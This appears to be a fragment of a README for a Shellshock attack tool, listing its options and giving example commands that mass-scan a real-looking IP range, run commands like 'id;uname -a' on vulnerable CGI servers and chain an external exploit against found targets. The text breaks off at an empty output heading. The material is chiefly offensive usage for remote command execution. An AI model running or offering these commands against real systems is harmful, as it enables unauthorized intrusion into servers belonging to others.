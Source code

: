 ```
  --cmd-cgi <command shell>    Define shell command that will be executed in the payload
  --exec-vuln <command shell>  Executing commands on vulnerable targets
  --thread <20>, -t <20>       Eg. 20
  --check                      Check for shellshock vulnerability
  --ssl                        Enable request with SSL
  --cgi-file <cgi.txt>         Defines a CGI file to be used
  --timeout <5>                Set connection timeout
  --all                        Teste all payloads
  --debug, -d                  Enable debug mode

```

### Command e.g:
```
python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 40 --ssl

python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 10 --ssl --cgi-file 'wordlist/cgi.txt'

python main.py --range '194.206.187.X,194.206.187.XXX' --cmd 'id;uname -a' --thread 10 --ssl --cgi-file 'wordlist/cgi.txt'

python main.py --file targets.txt --cmd 'id;uname -a' --thread 10 --ssl --cgi-file 'wordlist/cgi.txt'

python main.py --file targets.txt --cmd 'id;uname -a' --thread 10 --ssl --cgi-file 'wordlist/cgi.txt' --all

python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 40 --ssl --cgi-file 'wordlist/cgi2.txt' --exec-vuln 'curl -v -k -i "_TARGET_"'

python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 40 --ssl --cgi-file 'wordlist/cgi2.txt' --exec-vuln './exploit -t "_TARGET_"'

python main.py --range '194.206.187.X,194.206.187.XXX' --check --thread 40 --ssl --cgi-file 'wordlist/cgi2.txt' --exec-vuln './exploit -t "_TARGET_"' --debug
```
### Prints:
#### START